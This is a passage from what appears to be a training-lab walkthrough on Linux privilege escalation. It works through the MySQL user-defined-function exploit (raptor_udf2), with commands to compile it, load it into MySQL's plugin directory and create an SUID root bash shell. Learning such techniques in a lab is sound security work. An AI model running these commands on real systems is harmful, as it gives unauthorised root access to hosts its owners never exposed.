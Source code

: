 The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

```
cd /home/user/tools/mysql-udf
```

Compile the raptor_udf2.c exploit code using the following commands:

```
gcc -g -c raptor_udf2.c -fPIC   gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```
mysql -u root
```  

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```
use mysql;   create table foo(line blob);   insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));   select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';   create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p
```

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

```
rm /tmp/rootbash   exit
```

Answer the questions below

| Question | Answer    |
| -------- | --- |
| Read and follow along with the above.         |     |
